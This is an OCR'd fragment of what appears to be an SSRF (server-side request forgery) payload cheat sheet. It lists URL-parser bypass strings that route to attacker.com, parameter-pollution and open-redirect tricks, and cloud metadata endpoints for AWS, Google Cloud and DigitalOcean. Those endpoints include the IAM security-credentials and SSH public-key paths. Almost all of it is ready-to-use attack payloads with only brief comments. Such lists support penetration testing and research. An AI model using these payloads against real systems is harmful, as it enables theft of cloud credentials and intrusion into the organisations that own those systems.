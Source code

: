 ```bash
<https://attacker.com>\\@@{domain}
<https://attacker.com>:\\@@{domain}
<https://attacker.com#\\@{domain}>
<https://attacker.com>\\anything@{domain}/
<https://www.victim.com>(\\u2044)some(\\u2044)path(\\u2044)(\\u0294)some=param(\\uff03)hash@attacker.com

# On each IP position try to put 1 attackers domain and the others the victim domain
<http://1.1.1.1> &@2.2.2.2# @3.3.3.3/

#Parameter pollution
next={domain}&next=attacker.com

# Bypass via open redirect
<https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection>
```

### Cloud Meta Data files

```bash
## AWS
# from <http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories>

<http://169.254.169.254/latest/user-data>
<http://169.254.169.254/latest/user-data/iam/security-credentials/>[ROLE NAME]
<http://169.254.169.254/latest/meta-data/iam/security-credentials/>[ROLE NAME]
<http://169.254.169.254/latest/meta-data/ami-id>
<http://169.254.169.254/latest/meta-data/reservation-id>
<http://169.254.169.254/latest/meta-data/hostname>
<http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key>
<http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key>

# AWS - Dirs 

<http://169.254.169.254/>
<http://169.254.169.254/latest/meta-data/>
<http://169.254.169.254/latest/meta-data/public-keys/>

## Google Cloud
#  <https://cloud.google.com/compute/docs/metadata>
#  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

<http://169.254.169.254/computeMetadata/v1/>
<http://metadata.google.internal/computeMetadata/v1/>
<http://metadata/computeMetadata/v1/>
<http://metadata.google.internal/computeMetadata/v1/instance/hostname>
<http://metadata.google.internal/computeMetadata/v1/instance/id>
<http://metadata.google.internal/computeMetadata/v1/project/project-id>

# Google allows recursive pulls 
<http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true>

## Google
#  Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

<http://metadata.google.internal/computeMetadata/v1beta1/>

## Digital Ocean
# <https://developers.digitalocean.com/documentation/metadata/>

<http://169.254.169.254/metadata/v1.json>
<http://169.254.169.254/metadata/v1/> 
```